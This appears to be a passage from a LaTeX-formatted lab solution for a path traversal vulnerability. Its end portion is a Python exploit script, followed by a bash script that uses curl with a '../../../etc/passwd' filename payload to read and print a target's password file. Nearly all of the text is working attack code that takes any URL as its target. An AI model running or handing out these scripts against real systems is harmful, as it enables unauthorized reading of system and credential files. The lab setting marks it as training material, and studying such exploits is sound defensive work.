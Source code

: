 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}
        # Check for successful exploitation
        # The root user entry proves we read /etc/passwd
        if "root:x:0:0:" in response.text or "root::0:0:" in response.text:
            print("[+] Exploit successful!")
            print("[+] Contents of /etc/passwd:")
            print("-" * 50)
            print(response.text)
            print("-" * 50)
            return True
        else:
            print("[-] Exploit failed - signature not found in response")
            return False

    except requests.RequestException as e:
        print(f"[-] Request error: {e}")
        return False

def main():
    """Main entry point."""
    banner()

    # Validate command line arguments
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        print(f"Example: {sys.argv[0]} https://www.example.com")
        sys.exit(2)

    # Get URL from command line
    url = sys.argv[1].rstrip('/')

    # Run exploit
    success = directory_traversal_exploit(url)

    if success:
        print()
        print("[+] Lab solved!")
        sys.exit(0)
    else:
        print()
        print("[-] Exploitation failed")
        sys.exit(1)

if __name__ == "__main__":
    main()
\end{verbatim}
\par

\subsection{Bash/Curl One-Liner}

\begin{listing}[H]
\begin{verbatim}
#!/bin/bash
# Path Traversal Exploit - Simple Case
# Usage: ./exploit.sh https://target.example.com

BASE_URL="$1"

if [ -z "$BASE_URL" ]; then
    echo "Usage: $0 <BASE_URL>"
    exit 1
fi

echo "[*] Exploiting path traversal..."

# Send exploit request
RESPONSE=$(curl -s -k "${BASE_URL}/image?filename=../../../etc/passwd")

# Check for success
if echo "$RESPONSE" | grep -q "root:"; then
    echo "[+] Exploit successful!"
    echo "$RESPONSE"
else
    echo "[-] Exploit failed"
    exit 1
fi
\end{verbatim}
\caption{Command-line exploitation with curl}
\end{listing}
\end{document}
